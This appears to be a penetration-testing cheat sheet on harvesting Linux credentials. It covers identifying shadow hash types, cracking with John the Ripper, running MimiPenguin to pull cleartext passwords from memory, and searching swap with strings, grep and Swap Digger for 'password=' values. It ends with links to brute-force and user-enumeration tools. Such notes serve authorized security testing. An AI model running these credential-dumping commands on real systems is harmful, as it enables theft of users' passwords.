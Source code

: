 # Linux Passwd / Shadow
### Password Hashes
```bash
$6$ = SHA-512
$5$ = SHA-256
$1$ = MD5
```
### John The Ripper
##### [Unshadow Linux Hashes Cracking](../../Tools/Credentials/JohnTheRipper/README.md#Unshadow-for-Linux-Hashes-Cracking)

##### [Crack Linux Hashes](../../Tools/Credentials/JohnTheRipper/README.md#Crack-Linux-Hashes)

### MimiPenguin
#### May be worth running both scripts.
##### Run as Shell Script
```bash
./mimipenguin.sh
```
##### Run as Python Script
```bash
python mimipenguin.py
```

### From Swap Memory
##### Find Swap File
```bash
swapon -s

cat /proc/swaps
```
##### Look for Passwords
```bash
# Assuming found swap file as /dev/sda5
strings /dev/sda5 | grep "password="
strings /dev/sda5 | grep "&password="
```
##### Using [Swap Digger](https://github.com/sevagas/swap_digger)
```bash
git clone https://github.com/sevagas/swap_digger.git
cd swap_digger
chmod +x swap_digger.sh
sudo ./swap_digger.sh -vx
```

# References
[statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames)

[theHarvester](https://github.com/laramies/theHarvester)

[smtp-user-enum](https://pentestmonkey.net/tools/user-enumeration/smtp-user-enum)

[smtp_enum](https://www.rapid7.com/db/modules/auxiliary/scanner/smtp/smtp_enum/)

[thc-hydra](https://github.com/vanhauser-thc/thc-hydra)

[smb_login](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb_login/)

[owa_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_login/)

[Reverse brute-force attack](https://en.wikipedia.org/wiki/Brute-force_attack#Reverse_brute-force_attack)

[John The Ripper](https://www.openwall.com/john/)

[MimiPenguin](https://github.com/huntergregal/mimipenguin)

[Swap Digger](https://github.com/sevagas/swap_digger)